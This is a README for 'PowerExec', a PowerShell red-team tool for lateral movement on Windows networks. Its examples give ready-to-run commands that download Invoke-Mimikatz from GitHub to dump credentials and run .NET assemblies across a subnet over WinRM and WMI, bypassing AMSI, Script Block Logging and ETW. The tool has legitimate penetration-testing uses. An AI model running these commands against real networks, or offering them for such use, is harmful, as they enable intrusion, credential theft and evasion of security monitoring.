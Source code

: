 # PowerExec

PowerExec is a PowerShell tool to move laterally on a Windows network.

## Functions

```
Invoke-PowerExec                -   execute PowerShell script block on remote computers through various techniques
New-PowerLoader                 -   build script block which safely loads PowerShell or .NET assembly
```

## Examples

Run a PowerShell script through WinRM using a download cradle while bypassing Antimalware Scan Interface (AMSI) and Script Block Logging (SBL):

```
PS C:\> New-PowerLoader -Type PoSh -FileUrl 'https://raw.githubusercontent.com/BC-SECURITY/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1' -ArgumentList 'Invoke-Mimikatz -DumpCreds' -Bypass AMSI,SBL | Invoke-PowerExec -ComputerList 192.168.1.1,192.168.1.2 -Protocol WinRM
```

Run a .NET assembly through WMI while bypassing AMSI and Event Tracing for Windows (ETW):

```
PS C:\> New-PowerLoader -Type NetAsm -FilePath .\sample.exe -Bypass AMSI,ETW | Invoke-PowerExec -ComputerList 192.168.1.0/24 -Protocol WMI -Threads 10
```

## Credits

  * https://rastamouse.me/blog/asb-bypass-pt3/
  * https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/
  * https://blog.xpnsec.com/hiding-your-dotnet-etw
  * https://www.fireeye.com/blog/threat-research/2017/03/wmimplant_a_wmi_ba.html
